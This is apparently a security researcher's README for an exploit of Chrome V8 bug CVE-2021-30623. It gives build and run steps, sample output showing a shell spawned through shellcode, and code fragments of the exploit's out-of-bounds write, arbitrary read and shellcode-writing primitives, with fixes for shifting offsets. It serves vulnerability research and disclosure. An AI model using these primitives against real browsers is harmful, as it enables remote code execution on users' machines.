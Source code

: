 ## Chrome in-the-wild bug CVE-2021-30623

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30623). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.3.345.16 (commit `632e6e7`), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out `v8` at commit `632e6e7` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
```

Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I notice that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifest itself with some garbage values of the addresses, for example:

```
instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
```

In the above, address of `rwx page` and `initBackingStore` are clearly incorrect. The root cause seems to be an incorrect `elements` store value. (`800222d` is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

```
function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
```

This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching pattern in memory instead of relying on fixed offsets.
